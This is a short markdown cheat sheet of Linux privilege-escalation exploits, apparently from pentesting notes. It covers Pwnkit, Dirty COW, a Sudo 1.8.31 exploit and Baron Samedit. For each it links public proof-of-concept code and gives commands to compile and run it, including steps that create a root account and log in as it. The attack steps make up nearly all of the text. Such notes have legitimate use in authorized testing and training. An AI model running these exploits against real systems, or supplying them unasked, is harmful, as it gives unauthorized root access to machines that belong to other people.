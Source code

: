 # Kernel Exploits

## Pwnkit (CVE-2021-4034, `pkexec`)

Relies on `pkexec` being SUID, double check with the following command

```bash
which pkexec
ls -al /usr/bin/pkexec
```

If pkexec is SUID: **`-rwsr-xr-x`**, expoitation is possible

[cve-2021-4034-poc.c](https://raw.githubusercontent.com/arthepsy/CVE-2021-4034/main/cve-2021-4034-poc.c)

```bash
gcc cve-2021-4034-poc.c -o pwn
./pwn
```

**Notable Links:**

- https://github.com/berdav/CVE-2021-4034
- [Explination](https://www.youtube.com/watch?v=eTcVLqKpZJc)

## Dirty COW (CVE-2016-5195)

[PoC List](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

[cowroot.c](https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c)

```bash
gcc cowroot.c -o cowroot -pthread
./cowroot
```

[dirty.c](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)

```bash
gcc -pthread dirty.c -o dirty -lcrypt
./dirty password123
su firefart
ssh firefart@...
```

**Notable Links:**

- [Explination](https://www.youtube.com/watch?v=kEsshExn7aE)

## Sudo 1.8.31

https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit

```bash
git clone https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit.git
make
./exploit
```

## Baron Samedit (CVE-2021-3156, `sudo`)

Vulnerable versions:

- All legacy versions from `1.8.2` to `1.8.31p2`
- All stable versions from `1.9.0` to `1.9.5p1`

https://github.com/worawit/CVE-2021-3156

```bash
python3 exploit_nss_manual.py
```
